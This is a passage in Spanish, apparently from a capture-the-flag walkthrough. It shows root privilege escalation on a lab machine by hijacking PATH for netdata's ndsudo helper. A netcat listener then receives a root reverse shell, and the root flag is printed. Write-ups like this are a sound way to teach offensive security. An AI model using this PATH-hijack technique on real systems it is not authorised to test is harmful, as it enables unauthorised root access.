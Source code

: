 Y en la maquina victima tendremos que ejecutar el siguiente comando:

```shell
PATH=$(pwd):$PATH /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

Ahora si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7755 ...
connect to [10.10.14.32] from (UNKNOWN) [10.10.11.80] 46540
root@editor:/tmp# whoami
whoami
root
```

Veremos que ha funcionado, por lo que leeremos la `flag` del usuario `root`.

> root.txt

```
2c23e9a5027f65200d5b4e07fdac42f1
```
